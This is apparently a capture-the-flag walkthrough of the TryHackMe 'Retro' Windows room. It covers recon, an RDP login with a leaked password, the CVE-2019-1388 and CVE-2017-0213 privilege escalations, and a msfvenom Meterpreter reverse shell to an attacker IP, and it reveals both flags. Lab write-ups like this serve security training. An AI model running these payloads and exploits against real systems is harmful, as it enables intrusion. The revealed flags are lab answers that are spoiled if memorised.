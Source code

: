 # Retro

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

> 🔬🌐 [Retro](https://tryhackme.com/room/retro)
>
> *There are two distinct paths that can be taken on Retro. One requires significantly less trial and error, however, both will work. An alternative version of this room is available in it's remixed version [Blaster](blaster.md).* 
>
> ![](.gitbook/assets/retro.jpeg)

🎯 Target IP: `10.10.181.110`

## Recon

```bash
mkdir retro
cd retro
nmap 10.10.181.110
    80/tcp   open  http
    3389/tcp open  ms-wbt-server

nmap -sV -sC -Pn -oA retro 10.10.181.110
```

```bash
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-05-13T11:52:02+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-05-12T11:48:35
|_Not valid after:  2023-11-11T11:48:35
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-05-13T11:51:57+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
```

Perform Web Server directories enumeration.

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.181.110/FUZZ

[Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 281ms]
    * FUZZ: retro
```

The enumeration found a folder named **`/retro`**.

Use a browser to navigate to:

- `http://10.10.181.110/retro/index.php/2019/12/09/ready-player-one/`

> 📌 Wade user left a comment with his password

![](.gitbook/assets/image-20230513140001737.png)

Use the credentials to login to the target via the open RDP Port `3389`

- `Wade`:`parzival`

> I suggest to set the `Remmina` RDP resolution to a higher one, **`e.g`**
>
> - Open Remmina, `+` to create a Quick RDP Connect, select the resolution and `Save as Default`
>
> ![](.gitbook/assets/image-20230513142438083.png)

```bash
remmina -c rdp://wade@10.10.181.110

# It will open with the default set up resolution
```

Open the **`user.txt`** file on Wade's user desktop to get the first flag.



<details>
<summary>Reveal Flag - user.txt: 🚩</summary>



`3b99fbdc6d430bfb51c72c651a261927`

![](.gitbook/assets/image-20230513140554540.png)

</details>



## Exploitation

Open `Internet Explorer` to initialize it.

Open `Google Chrome` and set it as **Default web browser** in Windows.

![](.gitbook/assets/image-20230513142712637.png)

The bookmarked link refers to the [CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) - Windows Certificate Dialog Elevation of Privilege Vulnerability.

Check the Recycle Bin and restore the `hhupd` file.

![](.gitbook/assets/image-20230513140747457.png)

Exploit the privesc vulnerability present in the Windows Certificate Dialog Box and run `cmd` with **Administrator** privileges.

![](.gitbook/assets/image-20230513141237572.png)

![](.gitbook/assets/image-20230513141306088.png)

- Even after the initialization of both the IE and Chrome browsers, there might not be any option for selecting the browser in the opened window.

![](.gitbook/assets/image-20230513152711279.png)

### Meterpreter

Generate a manual payload to get a Metasploit Meterpreter session on the target.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.18.65.48 LPORT=4444 -f exe -o unprivileged-payload.exe
```

```bash
# Start a webserver in the same payload directory
python -m http.server 80
```

Download the payload on the target browser from this link

- `http://10.18.65.48/unprivileged-payload.exe`

Open Metasploit and set up a handler to listen on the `4444` port

```bash
msfconsole -q

setg RHOSTS 10.10.181.110
setg RHOST 10.10.181.110
use exploit/multi/handler
# Same as the generated payload
set payload windows/x64/meterpreter/reverse_tcp 
set LHOST 10.18.65.48 
set LPORT 4444
run
```

Run the `unprivileged-payload.exe` file on the target machine

![Wade Privileges Meterpreter](.gitbook/assets/image-20230513160120206.png)

Get `systeminfo` from the target and save the output to a file.

```bash
shell
systeminfo
```

![](.gitbook/assets/image-20230513170606987.png)

## Privilege Escalation

Exploit the [CVE-2017-0213 - Windows COM Elevation of Privilege Vulnerability](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213)

- Download the `CVE-2017-0213_x64.zip` package, unzip it and upload the **`CVE-2017-0213_x86.exe`** to the target.

```bash
wget https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/2b944b52ee30f8833a21f0805d2627ca1f15383a/CVE-2017-0213/CVE-2017-0213_x86.zip
```

```bash
# In the Meterpreter session
upload CVE-2017-0213_x86.exe
```

Run the `CVE-2017-0213_x86.exe` file from the Meterpreter session or using the RDP connection on the target.

```bash
shell
.\CVE-2017-0213_x86.exe
```

- Check the `CMD` as Administrator session on the target.

![Elevated CMD Session](.gitbook/assets/image-20230513171909558.png)

```bash
cd c:\Users\Administrator\Desktop
type root.txt.txt
```



<details>
<summary>Reveal Flag - root.txt: 🚩</summary>


`7958b569565d7bd88d10c6f22d1c4063`

![](.gitbook/assets/image-20230513172450267.png)



</details>



- Remember that there can be other attack vectors to exploit target's vulnerabilities.

------

